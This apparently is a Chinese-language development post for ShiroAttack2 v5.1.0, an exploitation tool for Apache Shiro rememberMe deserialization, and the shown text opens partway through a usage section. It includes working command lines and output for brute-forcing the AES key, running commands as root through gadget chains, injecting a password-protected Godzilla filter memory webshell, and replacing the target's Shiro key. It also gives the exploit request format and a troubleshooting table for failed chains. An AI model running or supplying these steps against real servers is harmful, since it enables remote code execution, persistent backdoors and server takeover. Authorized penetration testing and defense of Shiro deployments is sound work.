$ java -cp $JAR $CP crack -u $T -K "kPH+bIxk5D2deZiIxcaaaA==" --cbc
[*] [++] 找到key：kPH+bIxk5D2deZiIxcaaaA==
[*] [+] 爆破结束

# 执行命令（自动探测 Gadget + 回显）
$ java -cp $JAR $CP exec -u $T -K "kPH+bIxk5D2deZiIxcaaaA==" -c "whoami" --cbc
[*] [++] 发现构造链:CommonsBeanutilsString_183, 回显: AllEcho
root

# 指定 Gadget 和回显，跳过自动探测
$ java -cp $JAR $CP exec -u $T -K "kPH+bIxk5D2deZiIxcaaaA==" \
    -c "id" -g CommonsBeanutilsString_183 -e TomcatEcho --cbc
uid=0(root) gid=0(root) groups=0(root)

# 注入哥斯拉 Filter 内存马
$ java -cp $JAR $CP memshell -u $T -K "kPH+bIxk5D2deZiIxcaaaA==" \
    -t 哥斯拉[Filter] --pass SummerSec@2024
[*] [注入结果] 成功
[*] [类型] 哥斯拉[Filter]
[*] [路径] http://127.0.0.1:8080/favicon.ico
[*] [密码] SummerSec@2024
[*] [密钥] 3c6e0b8a9c15224a

# 替换 Shiro Key
$ java -cp $JAR $CP changekey -u $T -K "kPH+bIxk5D2deZiIxcaaaA==" \
    --newkey "FcoRsBKe9XB3zOHbxTG0Lw=="
[*] [修改结果] 成功
[*] [新 Key] FcoRsBKe9XB3zOHbxTG0Lw==

# 用新 Key 验证
$ java -cp $JAR $CP exec -u $T -K "FcoRsBKe9XB3zOHbxTG0Lw==" -c "whoami" --cbc
root
```



GCM 模式的目标（Shiro >= 1.2.5）把上面命令里的 `--cbc` 换成 `--gcm`。

需要被脚本或 AI 调的话加 `--json`。行首是 `{` 就按 JSON 解析日志元数据，否则是命令输出。

---

## AES 模式自动切换

Shiro 1.2.4 及之前用 AES-CBC，1.2.5 开始用 AES-GCM。两种模式密文格式不一样，用错了解密失败，Shiro 回 `rememberMe=deleteMe`。

5.0.2 开始 Key 验证不再只试一种模式。CBC 和 GCM 各走一遍，哪个命中就是哪个。但有个断裂：日志里标了 `(GCM)`，`AttackService.aesGcmCipherType` 却没跟着更新。后续 Gadget 测试时仍然用默认的 CBC。

5.1.0 在 Key 爆破的回调里补了两行：

```java
MainController.this.aesGcmOpt.setSelected(matchType == 1);
AttackService.aesGcmCipherType = matchType;
```

爆破命中 GCM Key 后，AES 模式跟着切过去，Gadget 测试直接用正确模式。


---

## jEG/jMG：生成器适配

5.0 之前回显和内存马的字节码是硬写在 `Gadgets.java` 里的。每加一个中间件版本就要写一个新的 Echo 类。内存马也只有 Filter 和 Servlet 两种型。

5.0 把 jEG（回显生成器）和 jMG（内存马生成器）接了进来。不是替换，是适配器套在最外层，优先用第三方生成器，失败了落回 Legacy：

```java
public EchoGenerateResult generateEcho(String source, EchoGenerateRequest req) {
    if ("Legacy".equalsIgnoreCase(source)) {
        return legacyAdapter.generate(req);
    }
    EchoGenerateResult result = jegAdapter.generate(req);
    if (!result.isSuccess()) {
        return legacyAdapter.generate(req);
    }
    return result;
}
```

jEG 和 jMG 按自己的节奏发版，ShiroAttack2 只用更新 `libs/` 下两个 JAR。jMG 现在能生成的 Shell 类型从 2 种扩到了 5 种（Filter / Servlet / Interceptor / HandlerMethod / TomcatValve），适配 Tomcat 和 Spring MVC 两个服务端。


注入协议跟 Legacy 走同一套：

```
POST / HTTP/1.1
Cookie: rememberMe=<InjectMemTool 加密 Payload>
Content-Type: application/x-www-form-urlencoded

user=<Base64(字节码)>&p=<密码>&path=<路径>
```

---

## Key 替换的六条路径

改目标 Shiro Key 本质上是注入一个 Filter，这个 Filter 能找到 `CookieRememberMeManager` 然后把 `cipherKey` 改掉。不同部署环境找这个引用的路径不一样。

标准 Spring 环境走 `ApplicationContext → shiroFilterFactoryBean → filterConfigs → RememberMeManager`。Bean 名对不上就降级到扫描 FilterChain 里名字含 "shiro" 的。再不行就模糊匹配类名和配置里含 `rememberMeManager` 字段的。最后一条路是遍历所有 Filter，有多少改多少——标记为高风险，因为集群里可能存在多个 RememberMeManager 实例。


注入完之后，工具自动拿新 Key 和旧 Key 各验证一次，确认新 Key 能用、旧 Key 失效。

---

## 请求头的处理细节

5.0 早期版本先设单次请求头再盖全局头，如果全局配置了 `Authorization`，会覆盖命令执行请求里的 `Authorization: Basic <base64(command)>`，命令传不到回显类。5.0.1 把顺序换了过来。Cookie 做了合并而非覆盖——业务 Cookie（JSESSIONID）和攻击 Cookie（rememberMe）得同时存在。另外做了 Cookie 归一化，把所有大小写变体合并成一行，兼容不同容器的解析差异。

---

## 排错速查

| 现象 | 先试这个 |
|------|---------|
| 探测返回没发现 | 换关键词 `-k JSESSIONID` |
| Key 爆破全部失败 | `--cbc` 和 `--gcm` 各跑一次 |
| Key 命中但所有链 deleteMe | 检查 Key 的模式标注，手动指定模式或升到 5.1.0 |
| 某个链 deleteMe，其他链命中 | 同 CB 版本换变体（`_183` ↔ 不带后缀） |
| 全部链未发现组合 | 试 NoEcho 确认链能不能执行 |
| 命令输出是 HTTP 头 | AllEcho → TomcatEcho → SpringEcho 轮一遍 |

---

## 之后的打算

CLI 和 JSON 输出跑通之后，可以在上面做的事情还挺多的：批量扫目标列表、嵌进 CI/CD 流水线、给 AI Agent 当工具箱。但这些得一个一个来，而且不着急。

ConsoleTextArea 的做法让我觉得比较舒服——不重构 1000+ 行的核心类，而是靠继承和多态把事情解决。工具往后走，这种"少改核心代码"的思路应该能省很多事。

---

*基于 ShiroAttack2 v5.1.0。代码在 [github.com/SummerSec/ShiroAttack2](https://github.com/SummerSec/ShiroAttack2)。只用于授权安全测试。*